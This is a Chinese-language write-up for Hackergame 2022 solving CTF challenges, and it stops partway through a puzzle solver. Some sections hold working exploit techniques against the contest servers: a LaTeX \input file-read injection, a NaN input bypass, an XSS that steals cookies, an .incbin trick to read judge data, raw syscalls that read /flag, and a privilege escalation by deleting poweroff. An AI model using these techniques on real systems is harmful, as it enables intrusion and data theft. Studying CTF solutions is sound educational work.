




# Hackergame 2022 Writeup

## 签到

点了提交发现网址变为`http://202.38.93.111:12022/?result=????`，根据题目说明尝试将result改为2022，拿到flag。

## 猫咪问答喵

今年的猫咪问答显示回答正确的个数，实在是太人性化了喵。

### 1.

搜索"中国科学技术大学 Nebula"找到一篇新闻稿，点进去发现倒数第二段写着成立日期。

[中国科学技术大学星云（Nebula）战队在第六届强网杯再创佳绩](https://cybersec.ustc.edu.cn/2022/0826/c23847a565848/page.htm#:~:text=%EF%BC%89%E2%80%9D%E6%88%90%E7%AB%8B%E4%BA%8E-,2017%E5%B9%B43%E6%9C%88,-%EF%BC%8C%E2%80%9C%E6%98%9F%E4%BA%91%E2%80%9D%E4%B8%80%E8%AF%8D)

### 2.

在USTC LUG网站浏览发现有一个FPT服务器，根据题目中给出的日期找到了对应的[slides](https://ftp.lug.ustc.edu.cn/%E6%B4%BB%E5%8A%A8/2022.9.20_%E8%BD%AF%E4%BB%B6%E8%87%AA%E7%94%B1%E6%97%A5/slides/)，根据题目的描述找到对应的页面及截图：


搜索"Clip Monitor KDE"得到关键词Kdenlive，尝试后发现是正确的。

### 3.

维基百科中有版本说明[Firefox - Wikepedia](https://en.wikipedia.org/wiki/Firefox#:~:text=2013%2D01%2D08-,2000,-2004%E2%80%932013)，尝试输入12发现正确。

### 4.

首先找到了一个Stackoverflow上的回答[c - executing a process with argc=0 - Stack Overflow](https://stackoverflow.com/questions/8113786/executing-a-process-with-argc-0#:~:text=program%20that%20calls-,exec,-directly%3B%20that%20allows)，说明应该找`exec`系统调用，搜索得到其在`/fs/exec.c`中，于是翻这个文件的commit记录很快就找到了，[/fs/exec.c commit history](https://github.com/torvalds/linux/commits/b452722e6ff39a1b8111d5b36b8562aaead1726e/fs/exec.c#:~:text=exec%3A%20Force%20single%20empty%20string%20when%20argv%20is%20empty)。

### 5.

带双引号搜索该MD5值，找到网页[ssh.log &mdash; Book of Zeek (git/master)](https://docs.zeek.org/en/master/logs/ssh.html#:~:text=%22id.resp_h%22%3A%20%22-,205.166.94.16,-%22%2C%0A%20%20%22id.resp_p)，日志写了服务器IP，找一个在线DNS反向查询工具查询得到域名为`sdf.org`。

### 6.

在中科大网络信息中心的[网字文件](https://ustcnet.ustc.edu.cn/11109/list2.htm#:~:text=2003%2D04%2D22-,%E5%85%B3%E4%BA%8E%E5%AE%9E%E8%A1%8C%E6%96%B0%E7%9A%84%E7%BD%91%E7%BB%9C%E8%B4%B9%E7%94%A8%E5%88%86%E6%8B%85%E5%8A%9E%E6%B3%95%E7%9A%84%E9%80%9A%E7%9F%A5,-2003%2D03%2D01)中找到文件，最后写着生效日期为2003年3月1日。

## 家目录里的秘密

### VS Code里的flag

使用VSCode全局搜索得到。

### Rclone里的flag

在`rclone.conf`找到pass为`tqqTq4tmQRDZ0sT_leJr7-WtCiHVXSMrVN49dWELPH1uce-5DPiuDtjBUN3EI38zvewgN5JaZqAirNnLlsQ`，搜索"rclone clone conf"找到一个在线解码网站[Is rclone.conf needed to decrypt remotes? - #15 by Daniel_Krajnik - Help and Support - rclone forum](https://forum.rclone.org/t/is-rclone-conf-needed-to-decrypt-remotes/25955/15#:~:text=https%3A//play.golang.org/p/IcRYDip3PnE)。

## HeiLang

将`|`替换为`]=a[`后运行得到flag。

## Xcaptcha

要在短时间计算大整数加法，需要脚本实现，用requests库好像有点问题，最后用selenium写的：

```python
from selenium import webdriver
import chromedriver_autoinstaller
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.common.by import By
from selenium.webdriver.common.keys import Keys

chromedriver_autoinstaller.install()

options = Options()
options.add_argument('--headless')
options.add_argument('--disable-gpu')
driver = webdriver.Chrome(chrome_options=options)

url = 'http://202.38.93.111:10047/xcaptcha'
token = 'xxx'  # xxx is your token

driver.get(url)
input_el = driver.find_element(By.NAME, 'token')
input_el.send_keys(token)
input_el.send_keys(Keys.ENTER)
driver.find_element(By.TAG_NAME, 'a').click()

labels = driver.find_elements(By.TAG_NAME, 'label')
inputs = driver.find_elements(By.TAG_NAME, 'input')
for l, i in zip(labels, inputs):
    i.send_keys(str(eval(l.text[:-6])))
driver.find_element(By.TAG_NAME, 'button').click()

print(driver.page_source)
```

## 旅行照片 2.0

### 照片分析

根据提示，下载图像，找一个在线EXIF解析网站得到答案。

### 社工实践

#### 酒店

搜索"zozo stadium"找到地点，谷歌地图上可以找到邮编，注意要的是酒店的，我最后才发现这个问题。

搜索EXIF信息中的器材"sm6115 (juice)"找到网页[device_xiaomi_juice](https://github.com/dotOS-Devices/device_xiaomi_juice)，得到分辨率1080x2340。

#### 航班

根据照片大致能确定飞机的航线，在航空记录网站上一看它最有可能是羽田机场出发的。最开始没发现这个网站[Flightradar24: Live Flight Tracker - Real-Time Flight Tracker Map](https://www.flightradar24.com/35.66,139.89/11)，它带的有Playback功能，于是爬了羽田机场对应时间段所有的航班尝试，最后发现了邮编填错了，改了一下再遍历就得到了flag。

## 猜数字

最开始一直在想随机数产生器的问题，因为它是`static`的，所有人共用一份，想着能不能预测伪随机数，后来发现不可行。之后某次提交了一个`1e999`，返回我的预测是`Infinity`，我才知道Java的`Double`类型没那么简单，搜索了一下发现有个`Double.NaN`，怎么比较都是`False`，那么`isPassed`就为`True`，脚本如下：

```python
from requests import get, post
url = 'http://202.38.93.111:18000/state'
headers = {
    'authorization': 'xxx'  # xxx is your authorization
}
payload = '<state><guess>NaN</guess></state>'
resp1 = post(url=url, headers=headers, data=payload)
resp2 = get(url=url, headers=headers)
print(resp2.text)
```

## LaTex机器人

第一问比较简单，直接`\input`就行，第二问经过大量的搜索发现`\catcode`。

```python
import re
import base64
from requests import post

url = 'http://202.38.93.111:10020/'

headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'Cookie': 'session=xxx',  # xxx is your session
}

# data = 'latex-text=' + r'\input{/flag1}'
data = 'latex-text=' + r'$$\catcode `\_=12 \catcode `\#=12 \input{/flag2}$$'
r = post(url=url, headers=headers, data=data)

if '输入解析失败' in r.text:
    print('输入解析失败')
else:
    print('成功')
    img_b64 = re.search(r'base64,(.*)', r.text).group(1)
    with open('img.png', 'wb') as f:
        f.write(base64.decodebytes(img_b64.encode('utf-8')))
```

## Flag的痕迹

本地配置了一个发现有个禁用action的选择，搜了一下dokuwiki都有哪些action，在[devel:action_modes [DokuWiki]](https://www.dokuwiki.org/devel:action_modes#:~:text=the%20current%20page.-,diff,-%3A%20Generates%20a%20diff)找到了diff，网址加上`?do=diff`得到flag。

## 安全的在线测评

编译期的信息会输出到`stdout`，第一问通过直接include文件，通过报错信息可以得到n和p：

```c
#include "../data/static.in
// #include "../data/static.out
```

相除得到q，再写个文件输出就行了。

第二问经过大量搜索，查到了一个知乎答案[# C++怎么把任意文本文件include成全局字符数组？](https://www.zhihu.com/question/431645051/answer/1826562458)，核心就是内联汇编`.incbin`指令，代码：

```c
#include <stdio.h>
#include <string.h>

#define EMBED_STR(name, path)                \
  extern const char name[];                  \
  asm(".section .rodata, \"a\", @progbits\n" \
      #name ":\n"                            \
      ".incbin \"" path "\"\n"               \
      ".byte 0\n"                            \
      ".previous\n");

EMBED_STR(s_in, "./data/static.in");
EMBED_STR(d0_in, "./data/dynamic0.in");
EMBED_STR(d1_in, "./data/dynamic1.in");
EMBED_STR(d2_in, "./data/dynamic2.in");
EMBED_STR(d3_in, "./data/dynamic3.in");
EMBED_STR(d4_in, "./data/dynamic4.in");
EMBED_STR(s_out, "./data/static.out");
EMBED_STR(d0_out, "./data/dynamic0.out");
EMBED_STR(d1_out, "./data/dynamic1.out");
EMBED_STR(d2_out, "./data/dynamic2.out");
EMBED_STR(d3_out, "./data/dynamic3.out");
EMBED_STR(d4_out, "./data/dynamic4.out");

int main() {
    char in[1024];
    scanf("%s", in);
    int i;
    for(i = 0; i < 1024; i++) if(in[i] == 0) break;
    in[i] = '\n';
    in[i + 1] = 0;

    if (strcmp(in, s_in) == 0) printf("%s\n", s_out);
    else if (strcmp(in, d0_in) == 0) printf("%s\n", d0_out);
    else if (strcmp(in, d1_in) == 0) printf("%s\n", d1_out);
    else if (strcmp(in, d2_in) == 0) printf("%s\n", d2_out);
    else if (strcmp(in, d3_in) == 0) printf("%s\n", d3_out);
    else if (strcmp(in, d4_in) == 0) printf("%s\n", d4_out);
    return 0;
}
```

## 线路板

下载了KiCad软件，使用Gerber文件查看器打开`ebaz_sdr-F_Cu.gbr`，导出到PCB编辑器，得到flag。



## Flag自动机

用IDA打开，发现"Congratulations"字符串，跳转到引用：



打断点，尝试调试，发现直接结束，逐步调试，发现有一个简单的反debug机制，通过修改寄存器跳过，然后等窗口加载好，再在`switch ( Msg )`那里打断点，通过修改`ZF`控制路径，得到flag：



## 微积分计算小练习

bot通过`driver.execute_script(f'document.cookie="flag={FLAG}"')`将flag存入cookie中，这不会设置HttpOnly，之后会访问我们给的share页面，链接中带有参数，查看share页面源码，发现使用了`innerHTML`将获得的参数插入页面中：

```js
document.querySelector("#greeting").innerHTML = "您好，" + username + "！";
document.querySelector("#score").innerHTML = "您在练习中获得的分数为 <b>" + score + "</b>/100。";
```

使用XSS攻击，将cookie中的flag插入`#greeting`或`#score`就行了：

```python
import base64, urllib
temp = base64.b64encode(b'0:')
temp = urllib.parse.quote_plus(temp)
url = 'http://202.38.93.111:10056/share?result=' + temp
print(url)
```

## 杯窗鹅影

Wine启动的程序也可以直接使用Linux系统调用，第一问使用`open`和`read`，第二问直接`exec`不行，先`fork`了一次。

第一问代码：

```c
#include <stdio.h>

int main(){
    unsigned int fd;
    const char *path = "/flag1";
    char flag[1024];

    __asm__(  // sys_open
        "movq $2, %%rax\n\t"  // rax = 2
        "movq %1, %%rdi\n\t"  // rdi = path
        "movq $0, %%rsi\n\t"  // rsi = 0
        "syscall\n\t"
        "movl %%eax, %0"      // fd = sys_open(path, 0)
        :"=r"(fd)
        :"r"(path)
        :"rax", "rdi", "rsi"
    );

    __asm__(  // sys_read
        "movq $0, %%rax\n\t"  // rax = 0
        "movl %0, %%edi\n\t"  // rdi = fd
        "movq %1, %%rsi\n\t"  // rsi = flag
        "movq $512, %%rdx\n\t"// rdx = 512
        "syscall\n\t"         // sys_read(fd, flag, 512)
        :
        :"r"(fd), "r"(flag)
        :"rax", "edi", "rsi", "rdx"
    );

    printf("%s\n", flag);
}
```

第二问代码：

```c
int main(){
    const char *argv[] = {"/readflag"};
    long long pid;
    __asm__(  // stub_fork
        "movq $57, %%rax\n\t"  // rax = 57
        "syscall\n\t"
        "movq %%rax, %0"       // pid = stub_fork()
        :"=r"(pid)
        :
        :"rax"
    );
    if(pid == 0){
        // child
        __asm__(  // stub_execve
            "movq $59, %%rax\n\t"  // rax = 59
            "movq %0, %%rdi\n\t"   // rdi = argv[0]
            "movq %1, %%rsi\n\t"   // rsi = argv[1]
            "movq $0, %%rdx\n\t"   // rdx = NULL
            "syscall"              // stub_execve(argv[0], argv, envp)
            :
            :"r"(argv[0]), "r"(argv)
            :"rax", "rdi", "rsi", "rdx"
        );
    }
}
```

## 蒙特卡罗轮盘赌

注意到随机数种子与时间有关`srand((unsigned)time(0) + clock())`，`time(0)`是当前时间戳，`clock()`是程序运行时钟数量，比较小，我们可以先错两次，然后遍历当前往后的时间找到和其输出相同的随机数种子，就可以预测后面的结果。Windows下的`rand`和Linux下的不一样，所以要在Linux环境下跑。比较坑的是我在Docker下`clock()`的值是7w左右，我从7w往两边寻找，还要存储求过的结果，浪费了很多时间，代码写了很多就不放了。

## 置换魔群

第一问，$secret^e=enc$，因为$e=65537$是质数，所以$enc$和$secret$的阶相同（[抽象代数2-3 群元素的阶和循环群](https://zhuanlan.zhihu.com/p/262254610#:~:text=%E6%9C%80%E5%B0%8F%E6%80%A7%E5%8D%B3%E5%8F%AF%E3%80%82-,%E5%AE%9A%E7%90%863,-%EF%BC%9A%E8%AE%BE%E7%BE%A4G)），我们可以求出$enc$的阶为$order$，所以又有$secret^{k\times order+1}=secret$，我们可以计算$enc^t=secret^{e\times t}$，只要$e\times t=k\times order+1$，其结果就是$secret$，这个$t$的值用扩展GCD可以求出来。

第二问，$g^{secret}=y$，利用置换群的性质，$g$和$y$都可以唯一拆分成互不相交的轮换$g_1g_2...g_p$和$y_1y_2...y_q$（代码中已经给了`standart_tuple`），由于是正交的，所以有$g_1^{secret}g_2^{secret}...g_p^{secret}=y_1y_2...y_q$，轮换的幂次也不会包含其他元素，左边的一项对应右边的一项或者多项，比如轮换$(2\ 3\ 5\ 7)^2=(2\ 5)(3\ 7)$，所以我们可以把它们分成$p$组，先分别求解每个问题，得到每个$g_i$对应的幂次$x_i$，那么就有对$secret$的约束：

$$
secret=x_1(mod\ order(g_1))\\
secret=x_2(mod\ order(g_2))\\
...\\
secret=x_p(mod\ order(g_p))
$$

其中轮换$g_i$的阶就是其长度，之后用中国剩余定理就可以求出$secret$了。那么只要求出$g_i$的多少次方等于右侧项就行了，根据这个博客[置换和轮换（续：对其幂的讨论）_Coco_T_的博客-CSDN博客_置换与轮换](https://blog.csdn.net/wu_tongtong/article/details/79256536#:~:text=%E4%B8%8D%E4%B8%80%E5%AE%9A%E7%9B%B8%E5%90%8C-,%E7%BB%93%E8%AE%BA%E4%B8%89,-%E4%B8%80%E4%B8%AA%E9%95%BF%E5%BA%A6%E4%B8%BA)中的结论，这个非常好求，当分裂的个数为$order(g_i)$时，显然就是$order(g_i)$，否则，取右侧任一个$y_j$，看$y_j[0]$和$y_j[1]$在$g_i$中的位置差多少就行了，如$(2\ 3\ 5\ 7)^x=(2\ 5)(3\ 7)$，$2$和$5$在左边坐标相差$2$，所以$x=2$。

第三问，$secret$比群上所有元素的阶都大（对加密没啥意义），用一组$g,y$肯定求不出来，题目让我们给出$g_0,g_1$，它会返回$y_0,y_1$，我们最后还是要用中国剩余定理求解，把两组方程合到一起就行，关键是我们的结果会小于$lcm(order(g_1),order(g_2),...,order(g_p))$（已经合到一起了），也就是小于$lcm(len(g_1),len(g_2),...,len(g_p))$，$g_i$间的长度最好不要相等，这对$lcm$没有贡献，所以问题变成了整数$2,3,4,5,6...$如何装到两个长都为$n$的背包里，使其$lcm$最大，可以当成背包问题的变种求解。

代码：

```python
from pwn import *
from permutation_group import *
from gmpy2 import gcdext
from sympy.ntheory.modular import crt

token = b'xxx'  # xxx is your token
level = b'1'    # 1, 2 or 3

context.log_level = 'error'

e = 65537


def solve1(l):
    enc = permutation_element(len(l), l)
    order = enc.order()
    print(f'order = {order}')
    exp = int(gcdext(e, order)[1])
    while exp < 0:
        exp += order
    exp %= order
    print(f'exp = {exp}')
    return (enc ** exp).permutation_list


def get_lens_ks(g, y):
    # [(1, 6, 4), (2, 3, 5, 7), (8, 9)]
    gs = permutation_element(None, g).standard_tuple
    # [(1, 4, 6), (2, 5), (3, 7), (8), (9)]
    ys = permutation_element(None, y).standard_tuple
    m = {}
    for i in gs:
        m[i] = set()
        for j in ys:
            if set(j).issubset(set(i)):
                m[i].add(j)
    # m = {(1, 6, 4): {(1, 4, 6)}, (2, 3, 5, 7): {(2, 5), (3, 7)},  (8, 9): {(8), (9)}}
    lens = []
    ks = []
    for origin, dest_set in m.items():
        lens.append(len(origin))
        if len(dest_set) == len(origin):
            ks.append(len(origin))
        else:
            for lh in dest_set:
                if lh[0] == origin[0]:
                    ks.append(origin.index(lh[1]))
                    break
    return lens, ks


def solve2(g, y):
    # lens = [3, 4, 2]
    # ks = [2, 2, 2]
    # res = 2 (mod 3)
    # res = 2 (mod 4)
    # res = 2 (mod 2)
    lens, ks = get_lens_ks(g, y)
    return crt(lens, ks)[0]


def choose_g(n, pri_bound):
    print(f'n={n}')
    print(f'pri_bound={pri_bound}')
    # p = sp.run([r'D:\STUDY\year4A\Hackergame2022\permutation_group\two_knapsack.exe', str(n)], capture_output=True)
    # lens0, lens1 = map(eval, p.stdout.splitlines())
    with open('data.txt') as f:
        for line in f:
            num, lens0, lens1 = map(eval, line.strip().split(' '))
            if num == n:
                break
    if sum(lens0) < n:
        lens0.append(n - sum(lens0))
    if sum(lens1) < n:
        lens1.append(n - sum(lens1))
    # example: n = 8, lens0 = [2, 3, 3], lens1 = [7, 1]
    # g1 = [2, 1, 4, 5, 3, 7, 8, 6], g2 = [2, 3, 4, 5, 6, 7, 1, 8]
    print(f'lens0={lens0}')
    print(f'lens1={lens1}')

    def get_g(lens):
        g = [i for i in range(1, n + 1)]
        start = 0
        for l in lens:
            # start ~ start + l - 1 roll
            temp = g[start]
            for j in range(start, start + l - 1):
                g[j] = g[j + 1]
            g[start + l - 1] = temp
            start += l
        return g

    return get_g(lens0), get_g(lens1)


def solve3(g0, g1, y0, y1):
    # lens = [3, 4, 2]
    # ks = [2, 2, 2]
    # x = 2 (mod 3)
    # x = 2 (mod 4)
    # x = 2 (mod 2)
    # x = crt(lens, ks)[0]
    lens0, ks0 = get_lens_ks(g0, y0)
    lens1, ks1 = get_lens_ks(g1, y1)
    res, m = crt(lens0 + lens1, ks0 + ks1)
    print(f'res={res}')
    print(f'm={m}')
    return res, m


io = remote('202.38.93.111', 10114)
io.sendlineafter(b'token: ', token)
io.sendlineafter(b'choice: ', level)

if level == b'1':
    for i in range(15):
        io.recvuntil(b'here: \n')
        l = eval(io.recvuntil(b']'))
        io.sendlineafter(b':', str(solve1(l)).encode())
elif level == b'2':
    for i in range(15):
        io.recvuntil(b'g = ')
        g = eval(io.recvuntil(b']'))
        io.recvuntil(b'key = ')
        y = eval(io.recvuntil(b']'))
        assert len(g) == len(y), 'len(g) != len(y)'
        n = len(g)
        io.sendlineafter(b':', str(solve2(g, y)).encode())
elif level == b'3':
    for _ in range(15):
        io.recvuntil(b'n = ')
        n = int(io.recvuntil(b'\n'))
        io.recvuntil(b'key is ')
        pri_bound = int(io.recvuntil(b'\n'))
        # choose g0, g1
        g0, g1 = choose_g(n, pri_bound)
        io.sendlineafter(b'(a list): ', str(g0).encode())
        io.recvuntil(b' : ')
        y0 = eval(io.recvuntil(b']'))
        io.sendlineafter(b'(a list): ', str(g1).encode())
        io.recvuntil(b' : ')
        y1 = eval(io.recvuntil(b']'))
        print(f'g0={g0}')
        print(f'g1={g1}')
        print(f'y0={y0}')
        print(f'y1={y1}')
        # solve
        x, m = solve3(g0, g1, y0, y1)
        io.sendlineafter(b'answer: ', str(x).encode())
        if io.recvline(keepends=False) == b'Bad':
            print('Bad')
            break
        else:
            print('Good')

print(io.recvrepeat(3).decode())
io.close()
```

```cpp
#include <iostream>
#include <vector>
#include <fstream>
#include "ttmath-0.9.4.prerelease-src-2019.07.31/ttmath/ttmath.h"
using namespace std;

typedef ttmath::Int<4> bint;

vector<int> nums{
    2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 26, 27, 28, 29, 30, 31,
    32, 33, 34, 35, 36, 37, 38, 39, 40, 41, 42, 43, 44, 45, 46, 47, 48, 49, 50, 51, 52, 53, 54, 55, 56, 57, 58, 59,
    60, 61, 62, 63, 64, 65, 66, 67, 68, 69, 70, 71, 72, 73, 74, 75, 76, 77, 78, 79, 80, 81, 82, 83, 84, 85, 86, 87,
    88, 89, 90, 91, 92, 93, 94, 95, 96, 97, 98, 99, 100, 101, 102, 103, 104, 105, 106, 107, 108, 109, 110, 111, 112,
    113, 114, 115, 116, 117, 118, 119, 120, 121, 122, 123, 124, 125, 126, 127, 128, 129, 130, 131, 132, 133, 134,
    135, 136, 137, 138, 139, 140, 141, 142, 143, 144, 145, 146, 147, 148, 149, 150, 151, 152, 153, 154, 155, 156,
    157, 158, 159, 160, 161, 162, 163, 164, 165, 166, 167, 168, 169, 170, 171, 172, 173, 174, 175, 176, 177, 178,
    179, 180, 181, 182, 183, 184, 185, 186, 187, 188, 189, 190, 191, 192, 193, 194, 195, 196, 197, 198, 199
};

bint gcd(bint a, bint b){
    if(b == 0) return a;
    return gcd(b, a % b);
}

bint lcm(bint a, bint b){
    return (a / gcd(a, b)) * b;
}

int main(int argc, char* argv[]){
    // int n = stoi(argv[1]);
    int n = 2000;
    vector<vector<bint>> dp = vector<vector<bint>>(n + 1, vector<bint>(n + 1, 1));
    vector<vector<vector<int>>> trace = vector<vector<vector<int>>>(nums.size() + 1, vector<vector<int>>(n + 1, vector<int>(n + 1, -1)));
    for(int i = 1; i <= nums.size(); i++){
        for(int j = n; j >= 0; j--){
            for(int k = n; k >= 0; k--){
                if(nums[i - 1] <= j){
                    bint temp = lcm(dp[j - nums[i - 1]][k], nums[i - 1]);
                    if(temp > dp[j][k]){
                        dp[j][k] = temp;
                        trace[i][j][k] = 0;
                    }
                }
                if(nums[i - 1] <= k){
                    bint temp = lcm(dp[j][k - nums[i - 1]], nums[i - 1]);
                    if(temp > dp[j][k]){
                        dp[j][k] = temp;
                        trace[i][j][k] = 1;
                    }
                }
            }
        }
    }

    ofstream f("data.txt");
    for(int i = 1; i <= n; i++){
        vector<int> l0, l1;
        int c0 = i, c1 = i;
        for(int i = nums.size(); i >= 1; i--){
            if(trace[i][c0][c1] == -1) continue;
            else if(trace[i][c0][c1] == 0){
                l0.emplace_back(nums[i - 1]);
                c0 -= nums[i - 1];
            }
            else if(trace[i][c0][c1 == 1]){
                l1.emplace_back(nums[i - 1]);
                c1 -= nums[i - 1];
            }
        }
        f << i << " [";
        for(int j: l0) f << j << ",";
        f << "] [";
        for(int j: l1) f << j << ",";
        f << "]\n";
    }
    return 0;
}
```

## 光与影

看了一下网页Sources，只有`fragment-shader.js`里可能存了flag，这个`shader`文件找了几个软件打开都是黑乎乎的，我转而在加载它时打断点，更改其中部分代码后运行，尝试摸清每个部分都有什么用，最后发现将`float tmin = min(min(min(min(t1, t2), t3), t4), t5)`中的`t5`删去可以将遮挡物去掉。



## 传达不到的文件

首先发现我拥有包括根目录的很多文件夹，可以删很多东西，并且在一次执行`rm -rf /*`后`exit`发现没有直接退出；环境变量里有个`SHLVL=3`，说明这是第三层shell；最后我发现了`/etc/init.d/rcS`：

```shell
#! /bin/sh

mkdir -p /tmp
mount -t proc none /proc
mount -t sysfs none /sys
mount -t debugfs none /sys/kernel/debug
mount -t devtmpfs devtmpfs /dev
mount -t tmpfs none /tmp
mdev -s

echo 1 > /proc/sys/kernel/kptr_restrict
echo 1 > /proc/sys/kernel/dmesg_restrict
chmod 400 /proc/kallsyms

chown 0:0 /chall
chmod 04111 /chall

cat /dev/sda > /flag2
chown 1337:1337 /flag2
chmod 0400 /flag2

setsid /bin/cttyhack setuidgid 1000 /bin/sh

umount /proc
umount /tmp


poweroff -d 0  -f
```

它给出了这个环境的创建流程，在`exit`后，会执行`poweroff -d 0 -f`，使用`which poweroff`找到位置`/sbin/poweroff`，这个目录也是我们的！这就意味着可以直接把它删了，再`exit`，就回到了`root`用户，然后`cat flag2`和`cat chall`得到两个flag，这是一个非预期解（感觉大都是非预期解...）。

## 企鹅拼盘

第一问$2^4=16$，手动枚举。

第二问$2^{16}=65536$，写程序枚举（开始没看见给了数据，我是爬取的，然后第三问总是爬不完就断开连接，最后才看见数据...）：

```python
from get_data import read_data

filename = 'data2.txt'
bitlen = 16
branch_len = bitlen ** 2

data, _ = read_data(filename)

class Board:
    size = 4
    origin = [
        1, 2, 3, 4,
        5, 6, 7, 8,
        9, 10, 11, 12,
        13, 14, 15, 0
    ]

    def __init__(self):
        self.b = [
            1, 2, 3, 4,
            5, 6, 7, 8,
            9, 10, 11, 12,
            13, 14, 15, 0
        ]
        self.empty_loc = [3, 3]

    def reset(self):
        self.__init__()

    def scrambled(self):
        return self.b != Board.origin

    @staticmethod
    def loc2index(loc):
        return Board.size * loc[0] + loc[1]

    @staticmethod
    def index2loc(index):
        return [index // Board.size, index % Board.size]

    def swap(self, loc1, loc2):
        self.b[self.loc2index(loc1)], self.b[self.loc2index(loc2)] =\
            self.b[self.loc2index(loc2)], self.b[self.loc2index(loc1)]

    def step(self, c):
        swap_loc = [i for i in self.empty_loc]
        if c == 'X':
            return
        elif c == 'U':
            swap_loc[0] -= 1
        elif c == 'D':
            swap_loc[0] += 1
        elif c == 'L':
            swap_loc[1] -= 1
        elif c == 'R':
            swap_loc[1] += 1
        if swap_loc[0] < 0 or swap_loc[0] >= Board.size or swap_loc[1] < 0 or swap_loc[1] >= Board.size:
            raise Exception
        else:
            self.swap(self.empty_loc, swap_loc)
            self.empty_loc = swap_loc

    def move(self, s):
        for c in s:
            self.step(c)

    @staticmethod
    def calc_trans(move):
        b = Board()
        start_num2index = [0 for _ in range(len(b.b))]
        for index, num in enumerate(b.b):
            start_num2index[num] = index
        b.move(move)
        trans = [0 for _ in range(len(b.b))]
        for index, num in enumerate(b.b):
            trans[start_num2index[num]] = index
        return trans

    def trans(self, trans):
        temp = [0 for _ in range(len(self.b))]
        for index, dest in enumerate(trans):
            temp[dest] = self.b[index]
            if temp[dest] == 0:
                self.empty_loc = self.index2loc(dest)
        self.b = temp

    def print(self):
        for i in range(Board.size):
